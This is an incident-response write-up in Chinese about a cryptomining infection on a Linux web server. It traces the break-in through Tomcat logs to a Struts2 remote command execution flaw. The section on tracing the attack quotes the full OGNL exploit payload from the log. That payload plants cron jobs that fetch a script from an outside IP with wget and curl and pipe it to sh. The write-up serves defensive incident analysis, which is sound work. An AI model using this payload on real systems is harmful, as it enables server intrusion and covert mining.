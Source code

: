 ## 第3篇：挖矿病毒

### 0x00 前言

​	随着虚拟货币的疯狂炒作，利用挖矿脚本来实现流量变现，使得挖矿病毒成为不法分子利用最为频繁的攻击方式。新的挖矿攻击展现出了类似蠕虫的行为，并结合了高级攻击技术，以增加对目标服务器感染的成功率，通过利用永恒之蓝（EternalBlue）、web攻击多种漏洞（如Tomcat弱口令攻击、Weblogic WLS组件漏洞、Jboss反序列化漏洞、Struts2远程命令执行等），导致大量服务器被感染挖矿程序的现象 。

### 0x01 应急场景

​	某天，安全管理员在登录安全设备巡检时，发现某台网站服务器持续向境外IP发起连接，下载病毒源：

![](images/linux-12-1.png)

###0x02 事件分析

#### A、排查过程	

登录服务器，查看系统进程状态，发现不规则命名的异常进程、异常下载进程 :

![](images/linux-12-2.png)

![](images/linux-12-3.png)

下载logo.jpg，包含脚本内容如下：

![](images/linux-12-4.png)	

到这里，我们可以发现攻击者下载logo.jpg并执行了里面了shell脚本，那这个脚本是如何启动的呢？

通过排查系统开机启动项、定时任务、服务等，在定时任务里面，发现了恶意脚本，每隔一段时间发起请求下载病毒源，并执行 。

![](images/linux-12-5.png)

#### B、溯源分析

​	在Tomcat log日志中，我们找到这样一条记录：

![](images/linux-12-6.png)

对日志中攻击源码进行摘录如下： 

`{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q http://5.188.87.11/icons/logo.jpg|sh\n*/19 * * * * curl http://5.188.87.11/icons/logo.jpg|sh" | crontab -;wget -O - -q http://5.188.87.11/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} `

可以发现攻击代码中的操作与定时任务中异常脚本一致，据此推断黑客通过Struct 远程命令执行漏洞向服务器定时任务中写入恶意脚本并执行。

#### C、清除病毒

1、删除定时任务:

![](images/linux-12-7.png)

2、终止异常进程:

![](images/linux-12-8.png)

#### D、漏洞修复

​	升级struts到最新版本 

### 0x03 防范措施

​	针对服务器被感染挖矿程序的现象，总结了几种预防措施：

```
1、安装安全软件并升级病毒库，定期全盘扫描，保持实时防护
2、及时更新 Windows安全补丁，开启防火墙临时关闭端口
3、及时更新web漏洞补丁，升级web组件
```


